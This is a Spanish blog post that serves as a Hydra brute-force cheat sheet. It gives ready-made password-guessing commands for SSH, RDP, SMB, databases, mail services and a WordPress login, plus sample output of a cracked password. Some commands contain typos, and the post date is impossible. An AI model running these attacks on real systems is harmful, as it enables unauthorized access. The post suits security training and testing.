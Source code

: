 ```yaml
---
date: 2022-29-05T23:08:12.000Z
layout: post
comments: true
title: Hydra
subtitle: 'Herramienta para romper contraseñas'
description: >-
image: >-
  http://imgfz.com/i/xoyNhEF.png
optimized_image: >-
  http://imgfz.com/i/xoyNhEF.png
category: ciberseguridad
tags:
  - Brute-Force
  - Fuerza-Bruta
  - contraseña
  - password
  - Diccionario
  - Wordlist
author: Felipe Canales Cayuqueo
paginate: true
---
```


Es una herramienta para romper inicios de sesión a través de ataques de fuerza bruta o de diccionario.

Admite: Cisco AAA, Cisco auth, Cisco enable, CVS, FTP, HTTP(S)-FORM-GET, HTTP(S)-FORM-POST, HTTP(S)-GET, HTTP(S)-HEAD, HTTP- Proxy, ICQ, IMAP, IRC, LDAP, MS-SQL, MySQL, NNTP, Oracle Listener, Oracle SID, PC-Anywhere, PC-NFS, POP3, PostgreSQL, RDP, Rexec, Rlogin, Rsh, SIP, SMB(NT) , SMTP, SMTP Enum, SNMP v1+v2+v3, SOCKS5, SSH (v1 y v2), SSHKEY, Subversion, Teamspeak (TS2), Telnet, VMware-Auth, VNC y XMPP.

### Tabla de parámetros

| Parámetro | Utilidad |
| :--------: | :-------: |
| -P | Indica la ruta del diccionario de contraseñas. |
| -L | Indica la ruta del diccionario de usuarios. |
| -t | Hilos (1-64). |
| -s | Se selecciona el puerto del servicio en el caso de que no sea por defecto. |
| -f | Salir cuando se encuentren las credenciales de inicio de sesión/contraseña. |
| -vV | Verbose. |

### CouchDB

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L /usr/share/wordlists/simple-users.txt -P /usr/share/wordlists/password.lst localhost -s 5984 http-get /
```

### Docker Registry

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L /usr/share/wordlists/simple-users.txt  -P /usr/share/wordlists/password.lst 10.1.1.30 -s 5000 https-get /v2/
```

### Elasticsearch

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L /usr/share/wordlists/simple-users.txt -P /usr/share/wordlists/password.lst localhost -s 9200 http-get /
```

### FTP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l root -P passwords.txt -t 32 10.1.1.30 ftp
```

### HTTP-GET

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L username.txt -P /usr/share/wordlists/rockyou.txt 10.1.1.30 http-get /admin
```

Para el caso de https, se debe reemplazar ```http-post``` por ```https-get```.


### HTTP-POST

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt -P password.lst 10.1.1.30 http-post-form "/path/index.php:name=^USER^&password=^PASS^&enter=Sign+in:Login name or password is incorrect" -V
```

Para el caso de https, se debe reemplazar ```http-post-form``` por ```https-post-form```.

### IMAP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l USERNAME -P /path/to/passwords.txt -f 10.1.1.30 imap -V
```

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -S -v -l USERNAME -P /path/to/passwords.txt -s 993 -f 10.1.1.30 imap -V
```

### LDAP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt -P passwords.txt 10.1.1.30 ldap2 -V -f
```

### MySQL

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L usernames.txt -P pass.txt 10.1.1.30 mysql
```

### POP3

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l USERNAME -P /usr/share/wordlistsnmap.lst -f 10.1.1.30 pop3 -V
```

### PostgreSQL

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt –P passwords.txt 10.1.1.30 postgres
```

### RDP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt rdp://10.1.1.30
```

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -t 1 -V -f -L users.txt -P /usr/share/wordlists/rockyou.txt rdp://10.1.1.30
```

### Redis

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra –P passwords.txt redis://10.1.1.30:6379
```

### Rexec

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l user -P passwords.txt rexec://10.1.1.30 -v -V
```

### Rlogin

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l user -P passwords.txt rlogin://10.1.1.30 -v -V
```

### Rsh

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L user.txt rsh://10.1.1.30 -v -V
```

### RTSP


```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l root -P passwords.txt 10.1.1.30 rtsp
```

### SMB

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -t 1 -V -f -l administrator -P /usr/share/wordlists/rockyou.txt 10.1.1.30 smb
```

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -t 1 -V -f -L users.txt -P /usr/share/wordlists/rockyou.txt 10.1.1.30 smb
```

### SMTP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -P /usr/share/wordlists/wordlistsnmap.lst 10.1.1.30 smtp -V
```

### SNMP

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -P wordlist.txt -v 10.1.1.30 snmp
```

### SQL Server

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L user.txt –P passwords.txt 10.1.1.30 mssql
```

### SSH

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -vV -L users.txt -P passwords.txt -t 1 -u 10.1.1.30 ssh
```

Al conocer el usuario:

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -vV -l user -P passwords.txt -t 1 10.1.1.30 ssh
```

Al conocer la contraseña:

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -vV -L users.txt -p password -t 1 -u 10.1.1.30 ssh
```

### Telnet

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -l root -P passwords.txt -t 32 10.1.1.30 telnet
```

### VNC

```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt –P passwords.txt -s 5432 10.1.1.30 vnc
```

### Nota

Para eliminar elementos repetidos de un diccionario se debe realizar lo siguiente:

```bash
┌─[root@kali]─[/hydra]
└──╼ cat wordlist.dic | sort | uniq > new_wordlist.txt
```

### Ejemplo en Wordpress


```bash
┌─[root@kali]─[/hydra]
└──╼ hydra -L users.txt -P passwords.txt 10.1.1.30 -V http-form-post '/wp-login.php:log=^USER^&pwd=^PASS^&wp-submit=Log In&testcookie=1:S=Location' -t 64
...
...
...
[ATTEMPT] target 10.1.1.30 - login "elliot" - pass "examples" - 5686 of 11452 [child 35] (0/0)
[ATTEMPT] target 10.1.1.30 - login "elliot" - pass "Examples" - 5687 of 11452 [child 50] (0/0)
[ATTEMPT] target 10.1.1.30 - login "elliot" - pass "exams" - 5688 of 11452 [child 8] (0/0)
[ATTEMPT] target 10.1.1.30 - login "elliot" - pass "excellent" - 5689 of 11452 [child 29] (0/0)
[80][http-post-form] host: 10.1.1.30   login: elliot   password: ER28-0652
1 of 1 target successfully completed, 1 valid password found
```

